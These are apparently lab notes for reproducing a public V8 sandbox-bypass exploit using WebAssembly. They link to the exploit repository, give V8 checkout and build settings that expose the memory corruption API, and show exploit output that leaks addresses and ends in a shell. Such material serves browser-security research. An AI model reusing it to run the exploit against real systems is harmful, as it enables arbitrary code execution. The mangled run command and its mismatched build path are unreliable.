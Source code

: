 
Javascript exploit code: https://github.com/theori-io/v8-sbx-bypass-wasm/tree/main

v8 build instructions: https://chromium.googlesource.com/external/github.com/v8/v8.wiki/+/8c0be5e888bda68437f15e2ea9e317fd6229a5e3/Building-with-GN.md

system prep

        sudo apt update
        sudo apt -y upgrade
        sudo apt -y install git build-essential pkg-config

get google tools

        git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
        export PATH=~/depot_tools:$PATH

get source

        cd ~
        fetch v8
        mv v8 v8-11-4-0
        cd v8-11-4-0
        git checkout f7a3499f6d7e50b227a17d2bbd96e4b59a261d3c
        gclient sync
        cd v8/src

configure for build

        gn args out/x64.release
        
                is_component_build = false
                is_debug = false
                target_cpu = "x64"
                v8_enable_sandbox = true
                use_goma = false
                v8_enable_backtrace = true
                v8_enable_disassembler = true
                v8_enable_object_print = true
                v8_enable_verify_heap = true
                dcheck_always_on = false
                v8_expose_memory_corruption_api = true

build

        autoninja -C out/x64.release

Run

        ~/v8-11-4-0/out/x64-release/d8 e[+] instance_addr = 0x19c3d8

Result gives you a shell

                [+] tbl_addr = 0x4dc04
                [+] exported_func_addr = 0x19c55c
                [+] imported_function_targets = 0x4def1
                [+] rwx = 0x39e47ef46700
                [+] indirect_function_tables = 0x4df4d
                [+] indirect_function_table = 0x4df69
                $ 




        
